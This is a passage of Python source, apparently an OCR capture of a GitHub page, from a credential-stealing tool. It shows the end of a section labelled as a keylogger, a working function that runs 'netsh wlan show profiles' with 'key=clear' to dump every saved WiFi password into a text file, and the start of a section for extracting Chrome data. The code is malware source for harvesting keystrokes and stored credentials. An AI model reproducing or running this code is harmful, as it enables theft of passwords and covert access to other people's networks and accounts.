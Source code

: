         listener.join()
    f.close()

#end of key logger



#start of wifi password extraction


def wifi_password():
    temp_out = subprocess.Popen(['netsh', 'wlan', 'show', 'profiles'],shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
    data_network = ''
    while temp_out.poll() is None:
        data_network = data_network + temp_out.stdout.readline().decode('utf-8')
        #print(data_network)
    #print(data_network)
    networks = re.findall("(?:Profile\s*:\s)(.*?\\r)",data_network)
    #print(networks)
    mess = "WiFi Password"
    mess = mess + "------------------------------------------\\n"
    Wifi_name = "Network\t:\tPassword"
    for i in networks:
        i = i.replace("\\r", "")
        Wifi_name = i
        temp_out = subprocess.Popen(['netsh', 'wlan', 'show', 'profiles', i, "key=clear"],shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
        output = ""
        while temp_out.poll() is None:
            output = output + temp_out.stdout.readline().decode('utf-8')
        #print(output)
        Type_net = re.findall("(?:Type\s*:\s)(.*?\\r)", output)[0]
        password = ""
        pas = re.findall("(?:Key\sContent\s*:\s)(.*?\\r)", output)
        if pas:
            password = pas[0]
        mess = mess + Wifi_name + " ::::: " + password + "\\n"
    #print(mess)
    direc = os. getcwd()
    filename = '\Wifi_pass.txt'
    filename = direc+filename
    f=open(filename,"w+")
    f.write(mess)
    f.close()

    
#end of wifi password extraction



#start of chrome extraction

def chrome_get_chrome_datetime(chromedate):

    return datetime(1601, 1, 1) + timedelta(microseconds=chromedate)
